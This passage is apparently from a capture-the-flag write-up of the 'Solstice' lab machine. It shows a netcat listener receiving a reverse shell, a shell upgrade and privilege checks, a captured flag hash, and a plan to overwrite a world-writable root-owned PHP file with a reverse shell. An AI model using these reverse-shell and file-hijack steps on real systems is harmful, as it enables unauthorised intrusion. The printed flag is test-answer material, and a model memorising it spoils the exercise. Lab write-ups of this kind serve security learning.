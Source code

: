 In response to that I got this →

---

## SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Solstice]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.164] from (UNKNOWN) [192.168.231.72] 54424
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@solstice:/var/tmp/webserver$ whoami
whoami
www-data
www-data@solstice:/var/tmp/webserver$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@solstice:/var/tmp/webserver$
```
{: .nolineno}

Found local.txt file →

```bash
www-data@solstice:~$ cat local.txt
cat local.txt
46dccaf36ae8422c374c3f9292c9f6c8
www-data@solstice:~$
```
{: .nolineno}

Now while reconnaissance ******I found this file →

```bash
www-data@solstice:/var/tmp/sv$ ls -al
total 12
drwsrwxrwx 2 root root 4096 Jul 10 04:07 .
drwxrwxrwt 9 root root 4096 Jul 10 04:09 ..
-rwxrwxrwx 1 root root 3463 Jul 10 04:07 index.php
```
{: .nolineno}

Now I can modify this file with my `php-reverse-shell` file →

Now it time to run this file but I was confussed with the port number in which it is running on 

So I checked the network configuration with ports and got this →

```bash
www-data@solstice:/var/tmp$ ss -tunlp | grep 127.0.0.1
tcp     LISTEN   0        5              127.0.0.1:631            0.0.0.0:*                                                     
                                
tcp     LISTEN   0        128            127.0.0.1:57             0.0.0.0:*                                                     
                                
tcp     LISTEN   0        80             127.0.0.1:3306           0.0.0.0:*                                                     
                                
www-data@solstice:/var/tmp$
```
{: .nolineno}
